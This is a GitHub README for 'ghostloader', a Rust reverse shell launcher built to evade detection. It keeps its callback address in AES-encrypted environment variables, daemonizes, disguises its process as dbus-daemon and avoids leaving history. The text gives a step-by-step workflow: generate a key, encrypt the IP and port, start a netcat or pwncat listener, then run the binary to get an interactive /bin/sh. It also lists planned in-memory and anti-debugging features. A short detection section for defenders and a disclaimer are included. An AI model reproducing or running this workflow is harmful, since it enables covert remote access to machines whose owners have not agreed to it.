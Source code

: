 # 👻 ghostloader


> 🔐 Runtime-only, encrypted reverse shell loader in Rust – with zero hardcoded IPs, keys, or ports. Payload data is provided securely via AES-GCM encrypted environment variables.

---

## 🎯 Project Goal

**ghostloader** is a hardened reverse shell launcher written in Rust, designed to avoid detection by:

- Not storing payloads in binaries
- Not using hardcoded IPs, ports, or cryptographic material
- Using AES-GCM encryption for runtime-loaded payloads
- Generating the decryption key from the host's UID + hostname
- Running in the background via daemonization (`fork()` + `setsid`)
- Obfuscating its process name (e.g., as `dbus-daemon`)
- Avoiding `.bash_history` or file system persistence

---

## 🧠 Concept Overview

The reverse shell destination (`IP + Port`) is encrypted with AES-GCM using:

- A **32-byte user-provided AES key**
- Combined with the current **UID** and **hostname**
- Encrypted data is stored in environment variables at runtime

> This allows **per-session or per-target shells** without needing to rebuild the binary. 

A Python helper script creates these environment variables for you.

---

## ⚠️ Blue Team Testing Notice

This project is intended for:

- **Blue Teams and Incident Response** to test defensive visibility
- **Red Team Simulations** in lab environments
- **CTF training** where payload customization is required

🚫 Do **not** use this tool in unauthorized environments.  
✅ Always have written permission when testing.

---

## 📦 Features

- ✅ No hardcoded secrets (IP, key, port, etc.)
- ✅ Random IV + AAD for each session (optional override)
- ✅ AES-GCM 256-bit encryption with host-specific derivation
- ✅ Built-in retries + jitter for resilience
- ✅ Clean Rust async + 'tokio' implementation
- ✅ `zeroize` on decrypted buffers and keys
- ✅ Fork/daemon shell, no direct parent
- ✅ Obfuscated process name (`dbus-daemon` or custom)
- ⏳ Planned: `memfd`, unlink-after-open, pipe-only, anti-debugging

---

## ⚙️ How It Works

1. Generate an **AES key**:
```bash
   export AES_KEY=$(openssl rand -hex 32)
   ```
2. Use the Python helper to create the encrypted payload:
```python
   python3 ghostloader.py 4444 --key "$AES_KEY"
```
3. Export the resulting environment variables:
```text
	export AES_KEY=...
	export ENC_PAYLOAD=...
	export ENC_IV=...
	export ENC_AAD=...
```
4. Run the ghostloader binary:
```text
	./ghostloader
```

### If decryption succeeds, the binary will:
- Spawn an interactive /bin/sh via reverse connection
- Retry up to 20x if offline (with jitter)
- Exit cleanly and securely if decryption or connection fails

## 🐍 Python: ghostloader.py
Helper to encrypt IP+port payloads for injection via env vars.

✅ Example:
```text
export AES_KEY=$(openssl rand -hex 32)
python3 ghostloader.py 4444 --loopback --key "$AES_KEY"
```

📦 Output:
```bash
Hostname: kali
UID: 1000

# --- Oneliner ENV export ---
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...
# ----------------------------
```

| Argument     | Description                                |
| ------------ | ------------------------------------------ |
| `port`       | Port to connect back to (required)         |
| `ip`         | Optional IP (default: detected via `tun0`) |
| `--loopback` | Use `127.0.0.1` instead of external IP     |
| `--key`      | Required AES key (32-byte hex)             |
| `--iv`       | Optional static IV (12-byte hex)           |
| `--aad`      | Optional static AAD (8-byte hex)           |

# 🦀 Rust Binary: ghostloader
## 🔧 Build instructions

🦀 Compile with Cargo (optimized)
```text
git clone https://github.com/y0uall/ghostloader.git
cd ghostloader

# Build optimized binary
cargo build --release
strip target/release/ghostloader
```

## 🚀 Sample Workflow

```bash
# 1. Generate AES key
export AES_KEY=$(openssl rand -hex 32)

# 2. Encrypt the target IP + port
# ➤ If --loopback is used, the IP is set to 127.0.0.1
# ➤ If no IP is given, the script auto-detects your VPN IP via interface 'tun0'
python3 ghostloader.py 4444 --key "$AES_KEY"

# 3. Export the generated values (copied from Python output)
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...

# 4. Start listener on your machine:
nc -lvnp 4444
pwncat-cs -lp 4444

# 5. Launch the ghostloader
./ghostloader
```

## 🔬 Detection Opportunities (for Blue Teams)

```text
- Suspicious parentless sh -i shells
- Connections to known C2 ports shortly after binary execution
- Reverse shell spawning from processes named dbus-daemon
- AES_KEY, ENC_* environment variables (from /proc/PID/environ)
- Short-lived child processes with dup2() on socket FDs
```

## 📁 Project Structure

```bash
.
ghostloader/
├── Cargo.toml
├── src/
│   └── main.rs
├── python
│   └── ghostloader.py
├── README.md
└── LICENSE
```

#❗Disclaimer

This project is provided for educational and research purposes only.
Use it only in authorized environments with proper permissions.
The authors are not responsible for misuse.

## 🧪 Future Ideas

- memfd_create and in-memory execution
- Encrypted config via pipe() or stdin
- Secure auto-clean of parent shell env
- Randomized timing logic
- Integration with C2 frameworks

## 🧠 Name Origin

- ghostloader = ephemeral, invisible, in-memory loader
- It's quiet, leaves no trace, and vanishes after use. 👻

Made with ❤️ for learning, testing, and advancing defense.

## License
This project is licensed under the [MIT License](LICENSE).
